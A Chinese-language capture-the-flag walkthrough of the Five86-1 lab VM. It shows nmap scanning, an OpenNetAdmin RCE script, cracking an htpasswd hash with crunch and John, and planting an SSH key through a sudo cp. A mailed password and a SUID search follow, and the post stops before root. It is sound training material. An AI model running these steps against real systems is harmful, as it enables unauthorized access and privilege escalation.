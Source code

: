 ```yaml
---
title: Five86-1
author: Pp1ove
avatar: \img\custom\head.jpg
authorLink: 
authorAbout: Pplover
authorDesc: 一个好奇的人
categories: 靶机
comments: false
date: 2021-02-19 10:27:51
tags: 渗透
keywords:
description:
photos: \img\article\26.png
---
```


# 信息搜集

## 主机发现

```
nmap -sn 192.168.182.0/24

nmap -sS 192.168.182.151
```

![image-20210219103042900](Five86-1/image-20210219103042900.png)

访问一下80端口

扫一下

![image-20210219103304541](Five86-1/image-20210219103304541.png)

发现robots文件

![image-20210219103318422](Five86-1/image-20210219103318422.png)

禁止爬虫访问/ona目录

# 漏洞发现

我们手动访问一下，发现:

![image-20210219104226247](Five86-1/image-20210219104226247.png)

发现了系统和版本,是一个OpenNetAdmin v18.1.1系统

去搜索一下是否有相关漏洞

![image-20210219104537706](Five86-1/image-20210219104537706.png)

发现一个远程代码执行漏洞

# Getshell

在执行时报错了,百度一下发现需要转换格式

![image-20210219105229836](Five86-1/image-20210219105229836.png)

执行`bash ./19.sh http://192.168.182.151/ona/`

成功拿到shell,（我这里没有加最后的/结果一直没有成功）

经过一番测试，发现这里无法执行的命令是没有回显的，并且不能执行cd命令，但是可以使用ls和cat命令

# 提权

## 提权douglas

执行find命令查看一下我们可以读取的文件

```
find / -type f -user www-data
```

发现

```
/var/www/html/reports/.htaccess
/var/log/ona.log
```

读取`var/www/html/reports/.htaccess`可以找到`AuthUserFile`的路径`/var/www/.htpasswd`

![image-20210219110643434](Five86-1/image-20210219110643434.png)

htpasswd建立和更新存储用户名、密码的文本文件,读取这个文件如下，可以得到用户名`douglas`和HASH的密码`$apr1$9fgG/hiM$BtsL9qpNHUlylaLxk81qY1`，给的提示是只包含`aefhrt`的十个字符

### crunch生成字典

然后使用crunch生成对应的字典，命令格式`crunch <min-len> <max-len> [charset string] [options]`，这里生成只包含aefhrt的10个字符，就可以使用如下命令`crunch 10 10 aefhrt -o pass.txt`

### John破解密码

将密码放入1.txt文件

`john --wordlist=pass.txt 1.txt`

成功跑出来密码

![image-20210219111909622](Five86-1/image-20210219111909622.png)

## 提权jen

ssh登录成功获取douglas用户的权限,查看一下无密码使用的命令,发现一个jen权限的cp命令

![image-20210219112056165](Five86-1/image-20210219112056165.png)

这里应该是想让我们利用这个cp命令

```bash
ssh-keygen -b 2048
# 生成 2048 比特字节的密钥

cp /home/douglas/.ssh/id_rsa.pub /tmp/id_rsa.pub
```

这个时候我们来到 /tmp（临时目录）下给 authorized_keys 这个文件一个可执行权限，然后使用 sudo以 jen 用户权限去执行 cp 命令，把我们刚刚生成的 authorized_keys移动到 /home/jen/.ssh/ 目录下，这样我们才能登陆它

```bash
chmod 777 id_rsa.pub
sudo -u jen cp /tmp/id_rsa.pub/home/jen/.ssh/authorized_keys
ssh jen@192.168.182.151
```

![image-20210219113434514](Five86-1/image-20210219113434514.png)

成功登录

## 提权moss

使用**echo $(find / -type f -user jen) > 1.txt**

发现/var/mail/jen 有一封邮件

![image-20210219120144809](Five86-1/image-20210219120144809.png)

发现moss用户密码为Fire!Fire!

## 提权root

登录后查看一下SUID权限可执行文件

```
find / -perm -u=s -type f 2>/dev/null
```

![image-20210219120440048](Five86-1/image-20210219120440048.png)

发现了一个upyourgame具有suid权限
然后cd到那个目录下面去执行upyourgame文件

![image-20210219120742560](Five86-1/image-20210219120742560.png)

